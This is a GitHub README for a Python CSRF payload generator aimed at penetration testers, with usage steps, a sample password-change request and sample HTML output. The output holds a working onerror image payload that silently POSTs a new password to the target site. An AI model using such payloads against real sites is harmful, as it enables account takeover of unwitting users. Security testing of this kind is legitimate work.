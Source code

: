 # csrf-payload-generator
CSRF Payload Generator A powerful and flexible Cross-Site Request Forgery (CSRF) Payload Generator designed for security enthusiasts and penetration testers. This tool automates the generation of CSRF attack payloads based on HTTP requests.

Features
* Supports Multiple Payload Methods:
    
    - fetch: Uses the Fetch API to execute CSRF requests programmatically.
    - onerror: Leverages the onerror event of an empty image tag for CSRF execution.
    - form: Auto-submitting HTML forms for CSRF attacks.

* HTML Output:
    - Generates an easy-to-use HTML file containing all the CSRF payloads for testing.

* How It Works
    - Input: Supply a raw HTTP request 
    - Process: The tool parses the HTTP request, extracts relevant data, and generates payloads.
    - Output: Produces an HTML file containing the generated payloads for execution.

* Usage
  
  1 - Clone the repository:
  
---
  ```
git clone https://github.com/Abutalib-Zarban/csrf-payload-generator.git

```
 2 - Navigate to the directory:
  ```
cd csrf-payload-generator

```

 3 - Run the script with a  HTTP request file:

```
python3 csrf_generator.py request.txt


```

4- Select the desired CSRF payload method:

    
    1: fetch
    2: onerror
    3: form
    4: All methods
View the output in the csrf_payloads.html file.


* Requirements
    - Python 3.x: The script is written in Python and requires Python 3.x.

 
---------------------------
* Request sample :
```
  POST /user/change-password HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Cookie: sessionid=abcd1234efgh5678ijkl9012mnop3456

new_password=newpassword456
```

----------------------------
* Tool Output :

  
```
   <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF Payloads</title>
</head>
<body>
    <h1>Generated CSRF Payloads</h1>

    <h2>Onerror Payload</h2>
    <div>
        <pre>
<img src="" onerror="fetch('http://www.example.com/user/change-password', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    }, body: 'new_password=newpassword456xyy'
})" style="display:none;">
</pre>
    </div>
    <hr>

</body>
</html> 
```

  
 

